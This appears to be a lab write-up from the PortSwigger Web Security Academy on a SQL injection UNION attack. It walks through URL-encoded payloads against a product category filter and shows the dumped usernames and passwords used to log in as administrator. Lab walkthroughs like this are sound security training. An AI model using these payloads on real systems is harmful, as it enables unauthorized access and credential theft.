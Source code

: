 
# SQL injection UNION attack, retrieving multiple values in a single column

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

___
**NOTE:** => Retrieving multiple values within a single column
You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:
`' UNION SELECT username || '~' || password FROM users--`

step 1

![screnshot](images/lab6_lifestyle_category.jpg)


step 2

`' UNION SELECT username || '~' || password FROM users--`
URL Encoded
`'+UNION+SELECT+username+||+'~'+||+password+FROM+users--`
1st payload
`/filter?category=Lifestyle'+UNION+SELECT+username+||+'~'+||+password+FROM+users--`

![screnshot](images/lab6_internal_error.jpg)

step 3

`' UNION SELECT NULL,username || '~' || password FROM users--`
`'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--`
final payload
`/filter?category=Lifestyle'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--`

![screnshot](images/lab6_administor_id_password.jpg)

step 4

```html
<tr>
	<th>administrator~i5dmpumi3gj0f9j6u0m9</th>
</tr>
<tr>
	<th>carlos~nkvfe8sien71r8lq6hz0</th>
</tr>
<tr>
	<th>wiener~8bhjp9xprgbywgaf4cy6</th>
</tr>
```

![screnshot](images/lab6_solved_lab.jpg)